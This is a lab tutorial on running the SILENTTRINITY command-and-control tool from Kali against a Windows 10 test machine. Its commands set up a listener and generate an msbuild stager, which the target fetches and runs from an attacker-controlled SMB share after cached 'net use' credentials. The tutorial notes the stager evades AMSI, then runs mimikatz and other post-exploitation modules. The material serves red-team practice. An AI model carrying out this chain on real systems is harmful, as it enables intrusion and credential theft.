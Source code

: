 ```yaml
---
description: Using Kali as a C2 Server
---
```


# SILENTTRINITY

SILENTTRINITY is a tool made by [byt3bl33d3r](https://twitter.com/byt3bl33d3r) which uses Ironpython for awesome C2 and post exploitation. I'll refer to it as ST in this article.

{% embed url="https://github.com/byt3bl33d3r/SILENTTRINITY" %}

## Installation

Install the tool and its dependencies, then start it. I've included the manual installation of the latest and greatest [impacket ](https://github.com/SecureAuthCorp/impacket)here too.

{% code-tabs %}
{% code-tabs-item title="hacker@kali" %}
```text
#Install deps
cd /opt
git clone https://github.com/SecureAuthCorp/impacket.git 
cd impacket
pip install -r requirements.txt
python setup.py install

#Install ST
apt install python3.7 python3.7-dev python3-pip
git clone https://github.com/byt3bl33d3r/SILENTTRINITY
cd SILENTTRINITY/Server
python3.7 -m pip install -r requirements.txt

#Start it up
python3.7 st.py
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![Ready to go](../.gitbook/assets/image%20%2831%29.png)

## Listening

Proceed with selecting a listener, binding it to an IP + port and starting it. And btw I set my BindIP to a different subnet because I am connected to my test lab using VPN. Nothing magic going on.

{% code-tabs %}
{% code-tabs-item title="hacker@st" %}
```text
listeners
list
use http
options
set BindIP 10.0.8.6
start
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/image%20%2856%29.png)

## Staging

Proceed to generate a stager. It will end up in the `/opt/SILENTTRINITY/Server` directory.

{% code-tabs %}
{% code-tabs-item title="hacker@st" %}
```text
stagers
list
use msbuild
generate http
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/image%20%2842%29.png)

![](../.gitbook/assets/image%20%2811%29.png)

## Execution

Now, find an appropriate way of downloading and triggering the stager. As per November 2018, the msbuild stager payloads still haven't triggered AMSI on Windows 10 1803.

### Serving the payload

A neat trick is using an SMB server for serving the payload. Download and trigger it it with `msbuild` and the UNC path to your SMB server as argument.

First create a share folder and then start the SMB server from impacket.

{% code-tabs %}
{% code-tabs-item title="hacker@kali" %}
```text
mkdir /opt/SMB
smbserver.py SMB /opt/SMB -smb2support -ip 10.0.8.6
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/image%20%281%29.png)

### Triggering the payload

Now we try to trigger the payload with msbuild, but it fails because we aren't authenticated.

{% code-tabs %}
{% code-tabs-item title="victim@target" %}
```text
cp /opt/SILENTTRINITY/Server/msbuild.xml /opt/SMB/msbuild.xml
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe \\10.0.8.6\SMB\msbuild.xml
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/image%20%2834%29.png)

### Caching credentials

So why did we specify credentials then? On Windows 10 you can't use SMB unauthenticated by default. And as far as I know there isn't a way to give msbuild credentials directly. So I fiddled around and find a little trick to cache some credentials for my SMB server on the host.  As you can see below I use hacker/hacker for authentication. Very secure of course. So on the target, trigger an authenticated `net use` command. This should try to access the SMB share with the specified credentials, and also cache them locally.

{% code-tabs %}
{% code-tabs-item title="victim@target" %}
```text
net use \\10.0.8.6\smb /user:hacker hacker
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/image%20%2832%29.png)

We see that we get a successful authentication and a NetNTLMv2 hash instantly. So now with cached credentials on the target, let's try to trigger our payload again.

![](../.gitbook/assets/image%20%2812%29.png)

Voila! Something started happening. Let's check back in ST.

![](../.gitbook/assets/image%20%2836%29.png)

Like sweet magic, we got a session!

## Modules

First list the session you just acquired. Because I triggered the payload from an elevated shell I have a session with elevated privileges. That allows me to do things like dump credentials and other kinds of post exploitation fun.

{% code-tabs %}
{% code-tabs-item title="hacker@st" %}
```text
sessions
list
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/image%20%2841%29.png)

So let's explore some of the post exploitation modules that ST has to offer. As you can see, ST has a lot of built in modules already and by the looks of it, there are more to come.

![](../.gitbook/assets/image%20%282%29.png)

Let's select the `mimikatz` module and run it towards our session. Word of notice here, you have to copypaste the GUID of the session beforehand so you have it ready. You can alternatively use `run all` to run it on all session, if you have several.

{% code-tabs %}
{% code-tabs-item title="hacker@st" %}
```text
modules
list
use mimikatz
options
run GUID
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/image%20%2827%29.png)

Running the shell module for good measure

{% code-tabs %}
{% code-tabs-item title="hacker@st" %}
```text
modules
use shell
options
set Command whoami
run GUID
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/image%20%2847%29.png)

Trying the execute-assembly module with [Watson](https://github.com/rasta-mouse/Watson).  Actually noticed at this point that ST starts autocompleting the GUID for the session I'm working on. Right arrow on the keyboard to complete it.

{% code-tabs %}
{% code-tabs-item title="hacker@st" %}
```text
modules
use execute-assembly
options
set Assembly /opt/Watson.exe
run GUID
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/image%20%283%29.png)

![](../.gitbook/assets/image%20%287%29.png)

Didn't find anything on my patched Windows 10 1803 VM, but that's ok.

Thanks [@byt3bl33d3r](https://twitter.com/byt3bl33d3r) for an awesome C2 platform.

